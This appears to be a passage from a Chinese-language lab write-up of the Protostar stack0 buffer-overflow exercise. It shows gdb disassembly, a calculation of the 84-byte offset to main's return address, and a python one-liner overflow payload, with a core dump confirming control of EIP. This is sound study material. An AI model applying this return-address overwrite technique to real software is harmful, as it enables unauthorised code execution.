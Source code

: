 ```
---------------------end---------------------

disas /m
-----------------output:-------------------
Dump of assembler code for function main:
6       {
   0x080483f4 <+0>:     push   ebp
=> 0x080483f5 <+1>:     mov    ebp,esp
   0x080483f7 <+3>:     and    esp,0xfffffff0
-------------------end---------------------

p $esp
-------------output:-----------------
$7 = (void *) 0xffffd4f8
---------------end-------------------

```

也即执行完0x080483f4后esp值为0xffffd4f8,所以要覆盖main_ret,需要输入(0xffffd4f8-0xffffd4ec)/4+16+1+1=21个栈单元=21*4=84B，也即84个字符

main_ret=0xffffd4f8+0x4=0xffffd4fc

```
python -c "print 'a'*80+'bbbb'" | ./stack0     #(此时不可直接print 'a'*80,print不支持)
------------output:------------
you have changed the 'modified' variable
[1]    11055 done                python -c 'print "a"*80+"bbbb"' | 
       11056 segmentation fault  ./stack0
-------------end---------------

gdb -q -c core
--------output:----------
/root/桌面/core: 没有那个文件或目录.
----------end------------

```

解决方法：[http://blog.csdn.net/nuoline/article/details/8610694](http://blog.csdn.net/nuoline/article/details/8610694)

```
ulimit -c
---------output:----------
0
------------end-----------

ulimit -c 2048
python -c 'print "a"*80+"bbbb"' | ./stack0
------------output:--------------
you have changed the 'modified' variable
[1]    11403 done                              python -c 'print "a"*80+"bbbb"' | 
       11404 segmentation fault (core dumped)  ./stack0
--------------end----------------

gdb -q -c core
----------------output:---------------
[New LWP 11404]
Core was generated by `./stack0'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x62626262 in ?? ()
-----------------end------------------

```
